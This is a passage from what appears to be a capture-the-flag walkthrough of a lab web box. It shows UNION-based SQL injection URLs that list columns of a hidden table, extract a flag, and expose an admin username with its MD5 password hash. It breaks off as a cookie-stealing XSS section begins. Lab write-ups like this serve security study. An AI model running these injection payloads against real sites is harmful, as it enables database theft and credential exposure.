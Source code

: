 Now we know the table names. Let's have a look on "s3cr3t_t4ble_31337" and find out which columns it has: 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 0,1      => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 1,1      => displays "flag"
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 2,1      => displays nothing
~~~

So now we can easily extract the 2nd flag

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,flag,null from sixes.s3cr3t_t4ble_31337 limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,flag,null from sixes.s3cr3t_t4ble_31337 limit 1,1     => displays "shellmates{69f78fa6e9f49d180d145553ceecf87d}"
~~~

![](attachments/Clipboard_07.png)

Digging further into the DB with the same method, we also find a table "users" with one single entry:

| username | password | role |
| --- | --- | --- |
| webmaster | c78180d394684c07d6d87b291d8fe533 | admin |

These might be the credentials required for logging in to the "Restricted area" of the page. Password is an md5 hash but unfortunately it seems to be too strong to break. Good indicator (at least for CTF Boxes) is that google does not find any clear text results. 
And unfortunately the SQL UNION SELECT attack does not provide us the possibility to INSERT or UPDATE any records in the database. So we are stuck here ... 

## Flag 3: XSS cookie stealing
Let's again focus on the webpage. We need to find a way to access the restricted area. We know that the username probably is "webmaster", but are stuck on the pw.
